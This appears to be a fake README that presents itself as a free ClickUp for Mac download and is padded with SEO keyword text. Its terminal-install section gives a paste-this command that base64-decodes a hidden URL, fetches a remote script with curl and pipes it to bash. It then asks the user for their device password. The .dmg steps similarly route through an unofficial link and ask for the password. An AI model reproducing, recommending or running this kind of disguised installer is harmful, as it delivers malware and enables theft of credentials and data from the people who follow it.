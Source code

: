 # ClickUp For Mac — Free Download  

Boost your productivity with ClickUp, the ultimate project management tool for Mac OS. Follow the simple steps below to install and start organizing your tasks efficiently! 🚀  

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/clickup)  

If the download button doesn’t work, follow the terminal-based installation instructions below.  

## 📦 How to Install ClickUp For Mac OS  

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with ClickUp  

- 🗂 **Task Management**: Organize tasks with customizable lists, boards, and calendars.  
- ⏰ **Time Tracking**: Monitor time spent on projects for better productivity insights.  
- 🤝 **Team Collaboration**: Share documents, assign tasks, and communicate seamlessly.  
- 📊 **Goal Tracking**: Set and track goals to keep your team aligned.  
- 🔄 **Automation**: Automate repetitive tasks to save time and reduce errors.  
- 📱 **Cross-Platform Sync**: Access ClickUp on Mac, iOS, Android, and web for seamless workflow.  

## About ClickUp  

ClickUp is a versatile project management platform designed to streamline workflows for teams and individuals. Whether you're managing complex projects or daily tasks, ClickUp offers a robust set of tools to keep everything organized. With its intuitive interface, you can create tasks, set deadlines, and collaborate in real-time, making it a top choice for Mac users seeking a free productivity solution. Keywords: *ClickUp free download, project management software, task manager for Mac*.  

One of ClickUp’s standout features is its flexibility. Unlike other project management tools, ClickUp allows you to customize your workspace with views like Kanban boards, Gantt charts, or simple lists, catering to diverse workflows. Its seamless integration with tools like Slack, Google Drive, and Zoom enhances team collaboration. Keywords: *ClickUp Mac app, free task management, productivity tools*.  

For Mac users, ClickUp provides a native desktop experience optimized for macOS, ensuring smooth performance and quick access to features. The app supports offline mode, so you can manage tasks without an internet connection, syncing automatically when you’re back online. Keywords: *ClickUp for Mac free, macOS productivity app, team collaboration software*.  

ClickUp’s automation capabilities set it apart from competitors. You can automate task assignments, status updates, and notifications, reducing manual work and boosting efficiency. Its scalability makes it suitable for freelancers, startups, and large enterprises alike. Keywords: *ClickUp automation, free project management for Mac, task tracking app*.  

### Why Choose ClickUp?  
ClickUp stands out for its all-in-one approach, combining task management, goal tracking, and time management in a single platform. Its free plan offers robust features, making it accessible to everyone. With regular updates and a focus on user feedback, ClickUp ensures a modern, reliable experience for Mac users. Keywords: *ClickUp free plan, best project management software, Mac productivity tools*.  

## 🖼 Preview  

![ClickUp Dashboard](https://processdriven.co/wp-content/uploads/2021/09/clickupapps.png)  
*View tasks in a customizable dashboard with Kanban, list, or calendar views.*  

![Task Creation](https://assets.techrepublic.com/uploads/2022/12/tr-121322-clickupappc-770x509.jpg)  
*Easily create and assign tasks with due dates and priorities.*  

## 🔍 Tags  

ClickUp free download, ClickUp Mac app, free task management, ClickUp for Mac free, ClickUp free plan, ClickUp download, ClickUp free, ClickUp download free, ClickUp mac os, ClickUp mac free, ClickUp download mac, ClickUp mac download
